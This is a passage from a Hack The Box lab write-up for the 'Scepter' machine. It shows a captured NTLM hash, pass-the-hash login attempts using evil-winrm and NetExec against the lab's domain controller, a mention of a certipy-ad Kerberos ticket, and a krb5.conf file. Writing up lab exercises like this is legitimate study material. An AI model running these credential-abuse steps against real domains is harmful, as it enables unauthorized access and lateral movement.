 ```bash
[*] Got hash for 'h.brown@scepter.htb': aad3b435b51404eeaad3b435b51404ee:4ecf5242092c6fb8c360a08069c75a0c
```

Nice!!! lets grab user.txt!!!!

```bash
➜  scepter evil-winrm -i DC01.scepter.htb -u h.brown -H 4ecf5242092c6fb8c360a08069c75a0c
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
                                        
Error: An error of type WinRM::WinRMAuthorizationError happened, message is WinRM::WinRMAuthorizationError
                                        
Error: Exiting with code 1
```

we have to change our /etc/krb5.conf file wait we have biggest problem

```bash
➜  scepter nxc smb 10.10.11.65 -u h.brown -H 4ecf5242092c6fb8c360a08069c75a0c
SMB         10.10.11.65     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:scepter.htb) (signing:True) (SMBv1:False) 
SMB         10.10.11.65     445    DC01             [-] scepter.htb\h.brown:4ecf5242092c6fb8c360a08069c75a0c STATUS_ACCOUNT_RESTRICTION 
➜  scepter nxc smb 10.10.11.65 -u h.brown -H 4ecf5242092c6fb8c360a08069c75a0c -k 
SMB         10.10.11.65     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:scepter.htb) (signing:True) (SMBv1:False) 
SMB         10.10.11.65     445    DC01             [-] scepter.htb\h.brown:4ecf5242092c6fb8c360a08069c75a0c KDC_ERR_ETYPE_NOSUPP 
➜  scepter nxc winrm 10.10.11.65 -u h.brown -H 4ecf5242092c6fb8c360a08069c75a0c
WINRM       10.10.11.65     5985   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:scepter.htb)
WINRM       10.10.11.65     5985   DC01             [-] scepter.htb\h.brown:4ecf5242092c6fb8c360a08069c75a0c
```

after certipy-ad command we will have `h.brown.ccache` file off course we can export it and try

```bash
[libdefaults]
        default_realm = SCEPTER.HTB
        kdc_timesync = 1
        ccache_type = 4
        forwardable = true
        proxiable = true
        fcc-mit-ticketflags = true
        dns_canonicalize_hostname = false
        dns_lookup_realm = false
        dns_lookup_kdc = true
        k5login_authoritative = false
[realms]
        SCEPTER.HTB = {
                kdc = scepter.htb
                admin_server = scepter.htb
                default_admin = scepter.htb
        }
[domain_realm]
        .scepter.htb = SCEPTER.HTB
```